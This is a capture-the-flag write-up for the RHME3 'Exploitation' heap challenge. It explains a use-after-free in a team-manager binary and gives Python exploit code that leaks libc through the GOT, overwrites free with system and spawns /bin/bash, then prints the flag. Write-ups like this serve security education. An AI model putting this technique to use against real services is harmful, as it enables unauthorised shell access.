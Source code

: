 ## Exploitation (Pwnable, 1 point)

    This binary is running on pwn.rhme.riscure.com. Analyze it and find a way to compromise the server. You’ll find the flag in the filesystem.

We are provided the challenge [main.elf](main.elf) along with a copy of the version of [libc](libc.so.6) they are using on the server. Let's open up the challenge in IDA and take a look.

Inside of main the first thing we see are calls setting up the daemonization of the binary. If we execute the binary it closes before spawning due to the environment not being setup. Instead of reversing out the expected environment we can simply NOP it all out (_0x35 NOPs @ 0x000021ac_).

![main before modifications](main.png)

After the modifications are done we can run the executable and are presented with the menu.

```
$ ./main.elf
Welcome to your TeamManager (TM)!
0.- Exit
1.- Add player
2.- Remove player
3.- Select player
4.- Edit player
5.- Show player
6.- Show team
Your choice:
```

Diving into the binary the initial impression is a Use-After-Free vulnerability. We are provided the ability to create players, delete players, assign a player as the currently selected, and print out information of players.

Inside of _select_player_ a global pointer _selected_ is set to our choosen player.

![select_player](select.png)

Looking at the code for _delete_player_ it does not check if we are deleting the _selected_ player.

![delete_player](delete.png)

Using this vulnerability we can overwrite arbitrary data on the heap.

---

_Initially I attempted this as a generic heap exploitation problem. I quickly ran up against a wall with not having the primitives necessary to write the data I needed. Leaking heap addresses was easy from the DWORD fields. Though we could only write at max 999 via the integer fields of player and the name field cannot contain null chars due to the use of strlen and strcpy. This makes purely heap exploitation extremely difficult._


Stepping back for a minute let's look at the primitives we have available. Two objects are allocated onto the heap, first the player of size 0x18, and the name of size n+1. The struct of player is as follows:
```
struct Player
{
  _DWORD atk;
  _DWORD def;
  _DWORD spd;
  _DWORD prc;
  char *name;
};
```
Creating and editing a player are the same. We can set the _DWORD_ fields to a number between 0 and 999. The _char*_ is _realloc_'d if _strlen(name)_ is less than the new name length. The name field has a max length of 0x100 and a bad char set of [0x00, 0x0A]. It's at this point I realized my mistake and ran checksec.

```
RELRO           STACK CANARY      NX            PIE             [...]         FILE
Partial RELRO   Canary found      NX enabled    No PIE          [...]         main.elf
```

With no ASLR we do not need any information leak of the process and can simply hardcode the address. With Partial RELRO we can overwrite the address of any imported function to another.

With this new found information let's craft our exploit. When deleting a player _free_ is called first on our name and secondly on the player. This makes for a good target to replace with a call to _system_ in classic return-to-libc fashion. If we can modify the player->name pointer we can overwrite data inside the GOT. Easy way to accomplish this is to allocate a string large enough and overwrite our dangling player pointer at the correct address with a new address.

```python
# Quick and dirty heap misalignement, worked first try
for x in range(11):
    create_player("A"*0x78)
select_player(0)
for x in range(11):
    delete_player(x)


# Next created player will have the name overwrite our selected player
# Allowing us to both read and write via the name attribute
create_player("A"*0x10 + pack("<Q", 0x603018) + "A"*0x20)
```

Success! Now when we print the player we leak out the address of _free_ inside of libc. From here we can calculate the address of _system_ and get the flag.
```python
libc_free = unpack("<Q", leak()[0].ljust(8, '\x00'))[0]
print "Libc FREE @ 0x%x" % libc_free


# Load the provided libc and calculate the address of `system` based on the leaked address of `free`
e = ELF('libc.so.6')
base = libc_free - e.symbols['free']
libc_system = base + e.symbols['system']
set_name(pack("<Q", libc_system))


# Now let's create out system command
# We send delete manually as bash will be spawned
create_player("/bin/bash")
r.send("2\n1\n")

r.interactive()
```

Full working solution here: [exploit.py](exploit.py)

**RHME3{h3ap_0f_tr0uble?}**
